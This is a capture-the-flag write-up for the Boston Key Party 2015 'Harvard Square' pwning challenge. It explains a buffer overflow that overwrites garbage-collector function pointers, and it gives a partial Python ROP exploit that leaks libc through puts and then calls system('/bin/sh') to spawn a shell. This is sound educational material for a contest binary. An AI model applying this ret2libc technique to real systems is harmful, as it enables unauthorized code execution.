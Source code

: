 # Boston Key Party CTF 2015: Harvard Square

**Category:** Pwning
**Points:** 275
**Solves:** 16
**Description:**

> can you be a leet 0day broker? 52.1.91.215 2114 (libc is ubuntu adf3305fcd0345f706019cf94687d50b libc-2.19.so) : 275

## Write-up

The problem is a game about transcation of 0days.  
We can enter the password and cheat the game, but it's useless.   
The game print the message:  

>Welcome to 0day Warz - The goal of the game is to get the $100M USD by the end of the game. You have been given a loan of $2000, with some high interest rate of 25% a day!`

The programe for the goal of game:  
```
void play_game() {
    ...
    if (owed == 0.0) {
        if (money > 9999999)
      action_hiscore();
    }
  ...
}
void action_hiscore() {
    char buf[268];
  ....
  read(0, buf, 0x400);
  ...
}
```
However, if understanding the game rule, we can know the condition is impossible to reach.  
So we must find another vulunerbility.  
In fact, there is a bof when `play_game()` starting.  
It cannot overflow to return address, but we can use it to change function pointers. :D  

The programe use `simple-gc`.  
(https://github.com/dhamidi/simple-gc/)  
It's create two garbage-collectors and put function pointer `exploit_free` and `string_free` to gc.  
Then, gc will trigger when we do `sleep` action.  
We can overwrite function ptr to `action_hiscore`, and we can overwrite the return address.  

Now, we can write the exploit.  
```
arg1 => rdi
arg2 => rsi
arg3 => rdx
...
```

So we must find some gadget to control arguments at first.  
Then, we can use `put()` to leak arbitrary address.  
There exist a little bug.... stdout dupped to socket.  
We won't receive the content immediately.  
To solve this bug, I return to `action_hiscore()` again because it has `fflush()` at the end of function.  

After leak the address, we can calulate the address of `system()`.  
Next, We need a string of "/bin/sh".  
Luckily, we can find it in libc, too.  
So we can call `system("/bin/sh")` to get the shell.  

My partitial exploit:  
```
# leak address
raw_input("wait gdb")
read_until("name? ")
pop_rdi = up64("402fc3")
got = up64("605061")
put = up64("400cd0")
payload = "a"*280 + pop_rdi + got + put + bof
send_line(payload)
read_until("...-'\"\n")
read_until("!\n")

# get leak and count libc
leak = read_line().strip()[::-1].encode("hex")
base = int(leak+"00", 16) - 0x54400
system = hex(base + 0x46640)[2:]
system = up64(system)
binsh = hex(base + 0x17d87b)[2:]

# get and shell out
read_until("name? ")
buf = up64("605800")
payload = "a"*280 + pop_rdi + up64(binsh) + system
send_line(payload)
read_until("!\n")

t.interact()
```

`flag: stay_in_school_and_dont_do_the_grugq`  

## Other write-ups and resources

* <http://ddaa.logdown.com/posts/256270-boston-key-party-ctf-2015-275-harvard-square>
* <https://rzhou.org/~ricky/bkpctf2015/harvard_square/>
* [Chinese](http://blog.orange.tw/2015/03/boston-key-parcty-ctf-2015-harvard.html)
